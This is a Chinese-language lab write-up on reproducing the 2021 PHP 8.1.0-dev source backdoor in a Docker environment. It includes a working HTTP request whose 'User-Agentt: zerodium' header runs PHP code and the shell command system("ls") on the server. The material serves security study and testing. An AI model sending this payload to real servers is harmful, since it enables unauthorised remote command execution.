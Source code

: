 # PHP 8.1.0-dev 开发版本后门

> PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。



## 1.漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 2.漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
User-Agentt: zerodiumsystem("ls");
Connection: close
```

​    

[![img](.img/PHP 8.1.0-dev 后门远程命令执行漏洞.assets/1.png)](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/1.png)

参考链接：

https://cloud.tencent.com/developer/article/1839234

https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md